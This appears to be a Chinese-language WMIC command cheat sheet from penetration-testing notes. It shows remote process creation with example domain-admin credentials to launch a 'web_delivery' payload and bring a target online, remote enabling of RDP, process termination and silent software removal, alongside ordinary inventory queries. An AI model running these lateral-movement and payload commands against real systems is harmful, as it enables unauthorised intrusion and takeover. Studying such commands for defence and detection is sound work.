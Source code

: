 通过smb在远程机器上执行指定程序,如,在本地让远程机器上线,在抓取目标系统用户的hash,等等...

```text
# wmic /node:192.168.3.122 /user:klionsec\administrator /password:"admin!@#123" process call create "web_delivery payload"
```

终止执行某程序

```text
# wmic process where name="calc.exe" call terminate
# wmic /node:192.168.3.122 /user:klionsec\administrator /password:"admin!@#123" process where name="calc.exe" call terminate
```

开启,关闭当前机器的rdp

```text
# wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1	开启
# wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 0	关闭
```

开启,关闭远程机器的rdp

```text
# wmic /node:"192.168.3.122" /USER:"klionsec\administrator" /password:"admin!@#123" PATH win32_terminalservicesetting WHERE (__Class!="") CALL SetAllowTSConnections 1 
# wmic /node:"192.168.3.122" /USER:"klionsec\administrator" /password:"admin!@#123" PATH win32_terminalservicesetting WHERE (__Class!="") CALL SetAllowTSConnections 0 
```

查询当前机器已安装的补丁

```text
# wmic qfe get description,installedOn,HotFixID,InstalledBy
# wmic qfe get CSName,Description,hotfixid
```

查询当前机器自启动程序有哪些

```text
# wmic startup list full
# wmic STARTUP GET Caption,Command,User
```

查询当前机器所安装的所有软件名

```text
# wmic product get name /value
# wmic product get name,version
```

删除当前机器中指定名称的软件

```text
# wmic product where name="Google Update Helper" call uninstall /nointeractive
```

查询本机所有的盘符及剩余空间

```text
# wmic logicaldisk get description,name
# wmic logicaldisk where drivetype=3 get name,freespace,systemname,filesystem,volumeserialnumber
```
